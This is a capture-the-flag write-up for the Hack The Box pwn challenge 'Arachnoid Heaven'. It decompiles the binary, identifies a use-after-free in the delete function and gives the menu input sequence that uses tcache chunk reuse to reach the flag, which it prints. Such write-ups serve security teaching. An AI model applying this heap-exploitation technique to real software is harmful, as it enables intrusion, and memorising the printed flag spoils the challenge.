 # (pwn) Arachnoid Heaven

### Proof of Concept

The TL;DR for this chall is that the program incorrectly frees memory in a way such that we are able to chain a UAF with the way that tcache bins work to get the flag!
 
### Vulnerability Explanation

We are given a single binary file for this challenge: `arachnoid_heaven`. 

Running file on it gives us the following: 

```bash
[~/arachnoid_heaven]$ file arachnoid_heaven 
arachnoid_heaven: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=257b92e99fc3cf519d91ed1c9ef66676820e238b, not stripped

```

With such we should check the security features enabled on the binary:

```bash
[~/arachnoid_heaven]$ checksec arachnoid_heaven 
[*] '/arachnoid_heaven/arachnoid_heaven'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Ok great, now we need to play around with the binary and see what behavior we can get from it. Running it you get the following menu: 

```bash 
🕸️ 🕷️  Welcome to Arachnoid Heaven! 🕷️ 🕸️

     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩
     🔩                        🔩
     🔩  1. Craft  arachnoid   🔩
     🔩  2. Delete arachnoid   🔩
     🔩  3. View   arachnoid   🔩
     🔩  4. Obtain arachnoid   🔩
     🔩  5. Exit               🔩
     🔩                        🔩
     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩

>
```

This offers the user 5 different options for using the program. You can craft, delete, view, and obtain arachnoids, and exit. Let's open the binary in Ghidra and examine the code. 

In main, we can see that 4 functions are called via a switch statement. Those are: 

1. `craft_arachnoid()`
2. `delete_arachnoid()`
3. `view_arachnoid()`
4. `obtain_arachnoid()`

Let's examine the code of each of these functions to get a better understanding of what's happening under the hood. 

*`craft_arachnoid`* 

This function allocates memory for a new arachnoid, and then increments the `arachnoidCount` variable by one. Nothing sticks out as blatantly exploitable so lets move along to the others. 

```c
void craft_arachnoid(void) {  
  ppvVar2 = (void **)malloc(0x10);
  pvVar3 = malloc(0x28);
  *ppvVar2 = pvVar3;
  pvVar3 = malloc(0x28);
  ppvVar2[1] = pvVar3;
  printf("%s","\nName: ");
  read(0,*ppvVar2,0x14);

  /* Copy "bad" to he name for the arachnoid */
  strcpy((char *)ppvVar2[1],defaultCode);
  lVar4 = (long)(int)arachnoidCount;
  pvVar3 = ppvVar2[1];
  *(void **)(arachnoids + lVar4 * 0x80) = *ppvVar2;
  *(void **)(arachnoids + lVar4 * 0x80 + 8) = pvVar3;
  printf("Arachnoid Index: %d\n\n",(ulong)arachnoidCount);
  arachnoidCount = arachnoidCount + 1;
  
  /* Stack canary check removed */
  return;
}
```

*`delete_arachnoid`*

This is the key function to pay attention to. This frees the memory for a created spider but doesn't do anything to the `arachnoid_count`. Additionally, it frees the 
```c
void delete_arachnoid(void) {
	printf("Index: ");
	read(0,local_12,2);
	uVar1 = atoi(local_12);
	lVar2 = (long)(int)uVar1 * 0x80;
	printf("Arachnoid %d:\n\nName: %s\nCode: %s\n",(ulong)uVar1,*(void **)(arachnoids + lVar2),
	     *(undefined8 *)(arachnoids + lVar2 + 8));
	if (((int)uVar1 < 0) || (arachnoidCount <= (int)uVar1)) {
		puts("Invalid Index!");
	}
	else {

		/* AHA! This is vewry interesting */
		/* This free results in some dangling pointers */
		/* Specifically, this leads to a UAF */
		free(*(void **)(arachnoids + lVar2));
		free(*(void **)(arachnoids + lVar2 + 8));
	}
	/* Stack canary check removed */
	return;
}
```

*`view_arachnoid`* 

I'm not going to talk through this as there isn't anything significant here.

*`obtain_arachnoid`*

This is very clearly our win function. If we can set the name to "spid3y" then we cat the flag and we're done. The only problem is that this value is set to "bad" initially. 

```c
void obtain_arachnoid(void) {
  puts("Arachnoid: ");
  read(0,local_12,2);
  iVar1 = atoi(local_12);
  if ((iVar1 < 0) || (arachnoidCount <= iVar1)) {
    puts("Invalid Index!");
  }
  else {

  	/* Spicy! This is what we need to set the name as */
    iVar1 = strncmp(*(char **)(arachnoids + (long)iVar1 * 0x80 + 8),"sp1d3y",6);
    if (iVar1 == 0) {
      system("cat flag.txt");
    }
    else {
      puts("Unauthorised!");
    }
  }
  return;
}
```

*Putting it all together*

Ok so we now know that there is a UAF and that we need to set the name to "sp1d3y". There was another key aspect to this challenge that has not been mentioned yet. In current Linux systems, the way that memory is freed is using a tcache bin. This article from Azeria Labs gives pretty good insight into how the algorithm works. But essentially, these bins are made avaliable after free is called, and can be overwritten by other bins before it. We can take advantage of this fact and use it to overwrite the "bad" string in the name!

### Solvers/Scripts Used

Since this was so trivial to do I didn't spend time automating however here is the chain of commands used to get the flag!

```bash
🕸️ 🕷️  Welcome to Arachnoid Heaven! 🕷️ 🕸️

     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩
     🔩                        🔩
     🔩  1. Craft  arachnoid   🔩
     🔩  2. Delete arachnoid   🔩
     🔩  3. View   arachnoid   🔩
     🔩  4. Obtain arachnoid   🔩
     🔩  5. Exit               🔩
     🔩                        🔩
     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩

> 1

Name: test
Arachnoid Index: 0


     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩
     🔩                        🔩
     🔩  1. Craft  arachnoid   🔩
     🔩  2. Delete arachnoid   🔩
     🔩  3. View   arachnoid   🔩
     🔩  4. Obtain arachnoid   🔩
     🔩  5. Exit               🔩
     🔩                        🔩
     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩

> 2
Index: 0
Arachnoid 0:

Name: test

Code: bad

     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩
     🔩                        🔩
     🔩  1. Craft  arachnoid   🔩
     🔩  2. Delete arachnoid   🔩
     🔩  3. View   arachnoid   🔩
     🔩  4. Obtain arachnoid   🔩
     🔩  5. Exit               🔩
     🔩                        🔩
     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩

> 1

Name: sp1d3y
Arachnoid Index: 1


     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩
     🔩                        🔩
     🔩  1. Craft  arachnoid   🔩
     🔩  2. Delete arachnoid   🔩
     🔩  3. View   arachnoid   🔩
     🔩  4. Obtain arachnoid   🔩
     🔩  5. Exit               🔩
     🔩                        🔩
     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩

> 3
Arachnoid 0:
Name: bad
Code: sp1d3y

Arachnoid 1:
Name: sp1d3y

Code: bad

     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩
     🔩                        🔩
     🔩  1. Craft  arachnoid   🔩
     🔩  2. Delete arachnoid   🔩
     🔩  3. View   arachnoid   🔩
     🔩  4. Obtain arachnoid   🔩
     🔩  5. Exit               🔩
     🔩                        🔩
     🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩

> 4 
Arachnoid: 

HTB{l3t_th3_4r4chn01ds_fr3333}
```
